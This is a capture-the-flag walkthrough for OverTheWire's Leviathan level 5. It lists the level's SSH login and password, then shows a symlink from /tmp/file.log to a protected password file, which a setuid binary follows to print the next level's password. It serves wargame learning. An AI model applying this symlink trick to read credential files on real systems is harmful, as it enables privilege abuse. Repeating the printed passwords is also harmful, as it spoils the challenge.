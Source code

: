 # Level 5

### Login
`ssh`: ssh leviathan5@leviathan.labs.overthewire.org -p 2223
`password`: EKKlTF1Xqs

### Solution
Lets use the `ls -al` command to see what files are availabe for us in the home directory:
```shell
leviathan5@gibson:~$ ls -al
total 36
drwxr-xr-x  2 root       root        4096 Oct  5 06:19 .
drwxr-xr-x 83 root       root        4096 Oct  5 06:20 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 15132 Oct  5 06:19 leviathan5
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

It seems that there's a binary named `leviathan5` available. It also looks like this binary can be executed. Let's execute `leviathan5` to understand its functionality:

```shell
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```

It seems that the binary is attempting to access a non-existent file. My gut says that if we establish a symbolic link from `/tmp/file`.log to `/etc/leviathan_pass/leviathan6`, we should be able to retrieve the contents from the leviathan6 password file:

```shell
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ55XPVk2l
```